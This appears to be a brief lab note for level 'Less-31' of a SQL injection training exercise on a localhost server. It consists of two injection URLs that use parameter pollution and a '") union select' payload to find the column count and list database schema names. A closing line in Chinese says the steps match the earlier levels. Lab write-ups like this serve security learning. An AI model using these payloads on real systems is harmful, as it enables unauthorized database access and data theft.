

# Less-31
1. http://127.0.0.1:8080/sqli_/Less-31/index.jsp?id=1&id=-1 ") union select 1,2,3 --+
2. http://127.0.0.1:8080/sqli_/Less-31/index.jsp?id=1&id=-1 ") union select 1,2,group_concat(schema_name) from    information_schema.schemata --+
操作和前面的基本相同